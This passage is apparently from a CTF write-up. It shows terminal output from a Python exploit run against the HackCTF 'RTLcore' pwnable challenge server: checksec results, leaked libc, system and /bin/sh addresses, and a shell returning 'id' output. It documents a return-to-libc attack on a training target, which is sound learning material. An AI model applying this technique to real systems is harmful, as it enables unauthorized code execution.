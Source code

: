 ```python
➜  RTLcore git:(master) ✗ python2 rtlcore.py
[*] '/home/ubuntu/CTF/hackctf/pwnable/RTLcore/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to ctf.j0n9hyun.xyz on port 3015: Done
코어 파일에 액세스중입니다...
패스코드를 입력해주세요
Passcode:
코드가 일치하구나. 좋아, 다음 단서를 던져주지
너에게 필요한 것은 바로 0x
printf addr :  0xf7e0a020
libc_base :  0xf7dc1000
system_addr :  0xf7dfb940
binsh_addr :  0xf7f1a02b
[*] Switching to interactive mode
 일거야
$ id
uid=1000(attack) gid=1000(attack) groups=1000(attack)
```